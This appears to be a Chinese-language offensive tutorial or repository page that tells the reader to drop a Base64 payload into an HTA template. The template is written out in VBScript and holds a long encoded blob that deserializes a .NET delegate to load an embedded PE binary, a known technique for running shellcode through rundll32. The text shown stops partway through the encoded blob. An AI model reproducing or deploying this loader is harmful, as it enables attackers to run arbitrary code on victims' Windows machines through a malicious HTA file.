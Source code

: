- 使用提供的HTA模板，将Base64编码的Payload替换`code`变量：

```hta
<script language="VBScript">
Dim binary : binary ="rundll32.exe"
Dim code : code ="payload"//payload插入

 Sub Debug(s)
 End Sub
 Sub SetVersion

 End Sub


Function Base64ToStream(b)
Dim enc, length, ba, transform, ms
Set enc = CreateObject("System.Text.ASCIIEncoding")
length = enc.GetByteCount_2(b)
Set transform = CreateObject("System.Security.Cryptography.FromBase64Transform")
Set ms = CreateObject("System.IO.MemoryStream")
ms.Write transform.TransformFinalBlock(enc.GetBytes_4(b),0, length),0,((length /4)*3)
ms.Position =0
Set Base64ToStream = ms
End Function

Sub Run
Dim s, entry_class
s ="AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"
s = s &"AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"
s = s &"dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"
s = s &"ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"
s = s &"AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"
s = s &"RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"
s = s &"eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"
s = s &"cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"
s = s &"aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"
s = s &"MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"
s = s &"dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA"
s = s &"ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"
s = s &"B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"
s = s &"dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"
s = s &"CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u"
s = s &"SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"
s = s &"cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"
s = s &"AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"
s = s &"AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"
s = s &"bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"
s = s &"NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"
s = s &"ZW1ibHkGFwAAAARMb2FkCg8MAAAAAB4AAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy"
s = s &"YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABMAQMAkNhXWQAAAAAA"
s = s &"AAAA4AAiIAsBMAAAFgAAAAYAAAAAAAByNQAAACAAAABAAAAAAAAQACAAAAACAAAEAAAAAAAAAAQA"
s = s &"AAAAAAAAAIAAAAACAAAAAAAAAwBAhQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAAIDUA"
s = s &"AE8AAAAAQAAAkAMAAAAAAAAAAAAAAAAAAAAAAAAAYAAADAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAIIAAASAAAAAAAAAAA"
s = s &"AAAALnRleHQAAAB4FQAAACAAAAAWAAAAAgAAAAAAAAAAAAAAAAAAIAAAYC5yc3JjAAAAkAMAAABA"
s = s &"AAAABAAAABgAAAAAAAAAAAAAAAAAAEAAAEAucmVsb2MAAAwAAAAAYAAAAAIAAAAcAAAAAAAAAAAA"
s = s &"AAAAAABAAABCAAAAAAAAAAAAAAAAAAAAAFQ1AAAAAAAASAAAAAIABQD4IQAAKBMAAAEAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHgIoDwAACioT"
s = s &"MAoABwEAAAEAABEEKBAAAAoKEgEGjmkoEQAACnMJAAAGDAgWfTUAAARyAQAAcBMEcgMAAHAoEgAA"
s = s &"Cm8TAAAKFjEZch0AAHAoEgAACnIrAABwAygUAAAKEwQrF3IdAABwKBIAAApyQQAAcAMoFAAAChME"
s = s &"EQQUFBQXGn4VAAAKFAgSAygBAAAGJgl7BAAABBMFEgUoFgAACnJXAABwKBcAAAosbhEFFnMRAAAK"
s = s &"ByAAMAAAH0AoAgAABhMGEgYoFgAACnJXAABwKBgAAAosChEFFigEAAAGJioWEwcSCAaOaSgRAAAK"
s = s &"EQURBgYRCBEHKAMAAAYmEQUWcxEAAAoWEQYWcxEAAAoWFnMRAAAKKAUAAAYmKnoCfhUAAAp9AgAA"
```
